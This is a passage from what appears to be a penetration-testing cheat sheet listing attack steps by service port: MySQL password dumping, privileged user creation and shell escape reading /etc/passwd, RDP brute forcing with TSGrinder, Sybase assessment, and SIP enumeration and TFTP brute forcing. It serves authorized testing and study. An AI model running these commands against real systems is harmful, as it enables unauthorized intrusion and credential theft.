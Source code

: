 * Access passwords
```
mysql> use mysql
mysql> select user,password from user;
```

* Create a new user and grant him privileges
```
mysql>create user test identified by 'test';
mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```

*  Break into a shell
```
mysql> \! cat /etc/passwd
mysql> \! bash
```
---
### RDesktop port 3389 open
    Rdesktop Enumeration
        Remote Desktop Connection
    Rdestop Bruteforce
        TSGrinder
            tsgrinder.exe -w dictionary_file -l leet -d workgroup -u administrator -b -n 2 IP_Address
        Tscrack

### Sybase Port 5000+ open
    Sybase Enumeration
        sybase-version ip_address from NGS
    Sybase Vulnerability Assessment
        Use DBVisualiser
            Sybase Security checksheet
                Copy output into excel spreadsheet
                Evaluate mis-configured parameters
            Manual sql input of previously reported vulnerabilties
                Advanced SQL Injection in SQL Server
                More Advanced SQL Injection
        NGS Squirrel for Sybase

### SIP Port 5060 open
    SIP Enumeration
        netcat
            nc IP_Address Port
        sipflanker
            python sipflanker.py 192.168.1-254
        Sipscan
        smap
            smap IP_Address/Subnet_Mask
            smap -o IP_Address/Subnet_Mask
            smap -l IP_Address
    SIP Packet Crafting etc.
        sipsak
            Tracing paths: - sipsak -T -s sip:usernaem@domain
            Options request:- sipsak -vv -s sip:username@domain
            Query registered bindings:- sipsak -I -C empty -a password -s sip:username@domain
        siprogue
    SIP Vulnerability Scanning/ Brute Force
        tftp bruteforcer
            Default dictionary file
            ./tftpbrute.pl IP_Address Dictionary_file Maximum_Processes
        VoIPaudit
        SiVuS
    Examine Configuration Files